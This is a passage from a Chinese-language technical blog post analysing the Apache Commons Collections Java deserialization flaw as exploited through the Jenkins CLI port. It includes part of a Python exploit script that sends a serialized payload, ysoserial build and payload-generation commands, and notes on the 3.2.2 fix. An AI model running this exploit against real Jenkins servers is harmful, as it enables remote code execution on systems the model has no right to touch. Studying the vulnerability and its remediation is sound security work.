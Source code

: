 headers='\x00\x14\x50\x72\x6f\x74\x6f\x63\x6f\x6c\x3a\x43\x4c\x49\x2d\x63\x6f\x6e\x6e\x65\x63\x74'
print 'sending "%s"' % headers
sock.send(headers)

data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data

data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data

payloadObj = open(sys.argv[3],'rb').read()
payload_b64 = base64.b64encode(payloadObj)
payload='\x3c\x3d\x3d\x3d\x5b\x4a\x45\x4e\x4b\x49\x4e\x53\x20\x52\x45\x4d\x4f\x54\x49\x4e\x47\x20\x43\x41\x50\x41\x43\x49\x54\x59\x5d\x3d\x3d\x3d\x3e'+payload_b64

print 'sending payload...'
'''outf = open('payload.tmp','w')
outf.write(payload)
outf.close()'''
sock.send(payload)
{% endhighlight %}

用法为：

{% highlight bash %}
./jenkins.py host port /path/to/payload
{% endhighlight %}

该利用脚本模拟了与Jenkins-CLI端口通信的过程，其中payload就是精心构造的`AnnotationInvocationHandler`类的序列化字节数据，我们可以使用github上的ysoserial工具进行构造。

{% highlight bash %}
git clone --depth=50 --branch=master https://github.com/frohoff/ysoserial.git frohoff/ysoserial
{% endhighlight %}

进行编译，得到ysoserial-0.0.2-SNAPSHOT-all.jar。
{% highlight bash %}
mvn install -DskipTests=true -Dmaven.javadoc.skip=true -B –V
{% endhighlight %}

生成payload的命令如下：

{% highlight bash %}
java -jar ysoserial-0.0.2-SNAPSHOT-all.jar CommonsCollections1 'touch  /tmp/tmp_test' > tmp_test.ser
{% endhighlight %}

## 0x05 影响与修复

### Apache Commons Collections

Apache Commons Collections在3.2.2版本做了一定的安全处理，对这些不安全的Java类的序列化支持增加了开关，默认为关闭状态。涉及的类包括`CloneTransformer`, `ForClosure`, `InstantiateFactory`, `InstantiateTransformer`, `InvokerTransformer`, `PrototypeCloneFactory`, `PrototypeSerializationFactory`, `WhileClosure`。

如，`InvokerTransformer`类重写了序列化相关方法`writeObject()`和 `readObject()`。

